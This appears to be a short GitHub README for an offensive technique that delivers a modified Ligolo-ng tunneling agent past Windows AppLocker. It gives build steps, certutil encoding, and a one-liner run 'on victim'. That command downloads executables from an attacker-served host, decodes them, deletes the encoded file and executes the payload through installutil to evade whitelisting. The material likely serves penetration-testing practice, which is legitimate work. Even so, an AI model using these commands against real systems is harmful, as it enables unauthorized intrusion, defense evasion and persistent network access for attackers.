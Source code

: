 ### Step 1: Modify the Ligolo-ng agent's main file
  Clone ligolo-ng repo: https://github.com/nicocha30/ligolo-ng. 
  Open and edit main.go to adjust the settings as needed: /ligolo-ng/cmd/agent/main.go 
   
  <img width="653" alt="{CAC55401-20B8-42A1-BCDE-EBF6E1DFC442}" src="https://github.com/user-attachments/assets/4d52a625-d15d-477d-a46e-63659f503c42" /> 

### Step 2: Compile the agent 
  Use the following command to compile: 
  GOOS=windows go build -o agent.exe cmd/agent/main.go

### Step 3: Encode the ApplockerBypassExternalBinary executable with certutil 
  certutil -encode .\ApplockerBypassExternalBinary.exe AppLockerBypassLigolo.

### Step 4: Execution on the Target Machine
  Name the agent executable `ligolo-agent.exe` 
  Make sure both executable and the encoded .txt file in the same directory, then serve them with python server.

### Step 5: Execution in Action! 
  On victim, run: `cmd.exe /c curl http://192.168.45.185/ligolo-agent.exe -o C:\users\public\try-agent.exe && curl http://192.168.45.185/  AppLockerBypassLigolo.txt -o C:\users\public\enc.txt && certutil -decode C:\users\public\enc.txt C:\users\public\ligolo.exe && del C:\users\public\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=true /U C:\users\public\ligolo.exe`
